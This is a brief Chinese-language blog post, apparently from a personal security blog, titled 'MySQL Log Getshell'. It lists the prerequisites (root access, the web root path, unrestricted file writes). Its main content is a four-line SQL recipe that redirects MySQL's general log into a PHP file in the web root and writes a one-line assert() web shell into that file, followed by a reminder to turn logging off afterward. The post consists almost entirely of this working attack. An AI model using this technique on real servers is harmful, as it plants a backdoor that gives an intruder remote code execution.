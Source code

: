 ```yaml
---
title: "MySQL Log Getshell"
date: 2018-01-09T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mysql']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


require:

- root权限.
- 网站物理路径.
- 文件位置未被限制.

<!--more-->

```
set global general_log = on;
set global general_log_file = 'F:/phpStudy/WWW/a.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off;
```

别忘了处理后事 (off).